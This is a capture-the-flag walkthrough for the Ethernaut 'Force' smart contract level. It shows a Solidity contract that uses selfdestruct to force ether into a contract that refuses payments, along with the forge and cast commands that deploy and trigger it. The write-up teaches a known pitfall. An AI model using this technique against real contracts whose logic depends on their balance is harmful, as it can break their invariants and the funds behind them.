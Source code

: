 ## Force Level Outline

**Difficulty : 5/10**

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

## Solution
We can call the selfdestruct function (which takes an address as a parameter) to force send all remaining ether in this contract to the level address.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    address payable target;

    constructor(address payable _target) {
        target = _target;
    }

    function explode() public payable {
        selfdestruct(target);
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "explode()" --value 0.0001ether --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
As seen from above, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.

### [:arrow_left: Back To Main Menu](../README.md)
